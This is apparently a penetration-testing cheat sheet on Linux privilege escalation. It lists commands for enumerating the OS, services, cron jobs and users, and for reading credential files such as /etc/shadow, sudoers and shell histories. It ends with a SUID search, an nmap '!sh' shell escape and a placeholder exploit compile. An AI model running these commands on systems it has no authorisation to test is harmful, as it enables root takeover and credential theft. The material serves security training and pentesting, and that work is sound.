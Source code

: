 # Linux Privilege Escalation

## Information Gathering

Key information

* OS release
* Kernel Version
* Available users and current user privileges
* SUID files
* View the installed packages to check for outdated versions

## OS Version

OS release:

`lsb_release -a`

Kernel version

`uname -a`

Is there a printer?

`lpstat -a`

## Application & Services

```
ps -aux
ps -ef
top
cat /etc/service
```

a = show processes for all users

u = display the process's user/owner

x = also show processes not attached to a terminal

### Determine which services are running as root

```
ps aux | grep root
ps -ef | grep root
```

### Determine what applications are installed and their version

```
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/
yum list \| grep installed
```

### Determine versions of important applications

```
gcc -v
mysql --version
java -version
python --version
ruby -v
perl -v
```

### Review system configurations

Syslog Configuration:

> cat /etc/syslog.conf

Web Server Configurations:

```
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/apache2/apache2.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
```

PHP Configuration:

> `/etc/php5/apache2/php.ini`

Printer \(cupsd\) Configuration:

> `cat /etc/cups/cupsd.conf`

MySQL Configuration:

> `cat /etc/my.conf`

Inetd Configuration:

> `cat /etc/inetd.conf`

List All

> `ls -aRl /etc/ | awk '$1 ~ /^.*r.*/'`

### Determine scheduled jobs

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

## Communications and Networking

## Confidential Information & Users

### Identify current user and users in the system

```
id
who
w
last 
cat /etc/passwd | cut -d :  -f 1  # List users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
```

### Show which commands sudo allows you to run

> sudo -l

### List Sudoers

> cat /etc/sudoers

### Attempt to display sensitive files

```
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
```

### Check for anything interesting in home directories

```
ls -ahlR /root/
ls -ahlR /home/
```

### Check for hardcoded passwords in scripts, databases or configuration files

```
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD 
cat /root/anaconda-ks.cfg
```

\*\*Dump all Local, LDAP, NIS, etc password hashes

> getent passwd

### Check user history for credentials and activity

```
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history 
cat ~/.php_history
```

### Check user profile and mail

```
cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root
```

### Check for mail aliases or all aliases

```
cat /etc/aliases
getent aliases
```


## Direction on Privilege Escalation

* Exploit against system
* Exploit against services
* Brute force credentials

SUID files

> find / -perm -u=s -type f 2&gt;/dev/null

Check program version

> \[/usr/local/bin/nmap --version\]

Pop a shell

> !sh

## Create an exploit file

> touch exploit.c vim exploit.c

Compile

> gcc exploit.c -o exploit

Run

> ./exploit

